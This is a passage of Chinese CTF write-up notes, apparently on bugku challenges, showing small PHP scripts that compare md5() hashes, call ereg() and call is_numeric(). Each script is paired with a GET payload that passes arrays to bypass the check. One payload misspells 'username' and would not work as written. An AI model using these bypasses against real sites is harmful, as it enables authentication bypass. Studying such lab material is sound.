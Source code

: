 payload: ?id=hacker%2544J

## md5()函数(bugku)

```
<?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
    print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
    die('Flag: '.$flag);
else print 'Invalid password';
}
?>
```

利用MD5没有办法处理数组的缺陷，绕过判断

payload: ?uasrname[]=1&password[]=2

## 数组返回NULL绕过

```
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
    echo 'You password must be alphanumeric';
    else if (strpos ($_GET['password'], '--') !== FALSE)
    die('Flag: ' . $flag);
else
    echo 'Invalid password';
}
?>
```

利用ereg只能匹配字符，构造数组绕过

payload: ?password[]=1

## 弱类型整数大小比较绕过（bugku）

```
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
```
is_numeric用于检测变量是否为数字或数字字符串，不能判断数组，构造数组绕过

Payload: password[]=1
